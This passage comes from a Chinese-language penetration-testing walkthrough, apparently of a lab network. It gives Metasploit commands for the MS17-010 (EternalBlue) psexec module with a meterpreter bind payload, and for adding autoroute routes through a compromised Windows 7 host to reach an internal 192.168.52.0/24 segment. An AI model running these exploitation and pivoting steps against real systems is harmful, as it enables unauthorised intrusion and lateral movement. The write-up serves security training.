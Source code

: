 ![图片](https://shs3.b.qianxin.com/butian_public/f956e3a5ff89c8d15e8a4496fce73e9ed.jpg)

运行之后发现exp已经打过去了但是没有session建立

![图片](https://shs3.b.qianxin.com/butian_public/ff9efc629d8c123d6330c65504ac5bc68.jpg)

再换个`ms17010`的模块

- 
- 

```php
use exploit/windows/smb/ms17_010_psexecset payload windows/meterpreter/bind_tcp
```

![图片](https://shs3.b.qianxin.com/butian_public/f05fbd541230b7ba7eb30b3ffbc7f1265.jpg)

同样没有拿到shell，当时没有细想，后来我考虑到可能是win7处于两个网段的原因，所以用永恒之蓝直接打是拿不到shell的

![图片](https://shs3.b.qianxin.com/butian_public/fb5457f787f9099bfc8b67fc77d8ebdb0.jpg)

**msf打不出网机器的ms\_17\_010**

想到之前拿到了win7的meterpreter，所以用添加路由的方式尝试一下。

msf在单兵作战的时候还是很稳定很香的。win7在msf上线后，因为我们已经提前知道了，存在52这个不出网的段，那么就需要在msf中添加路由

**1.查看路由**

- 

```php
run get_local_subnets
```

![图片](https://shs3.b.qianxin.com/butian_public/f1b7ec5d5ae66d6a42c49306b5e713713.jpg)

**2.添加路由**

- 

```php
run autoroute -s 192.168.52.0/24
```

![图片](https://shs3.b.qianxin.com/butian_public/f37fd51b3232e5f7756c8fc712eaed5e4.jpg)

**3.查看添加的路由**

- 

```php
run autoroute -p
```

![图片](https://shs3.b.qianxin.com/butian_public/fc0b98c1887c2d122b881b6b4a49f7ebd.jpg)

**4.开始攻击**

把shell切换到后台，再运用ms17\_010\_eternalblue模块
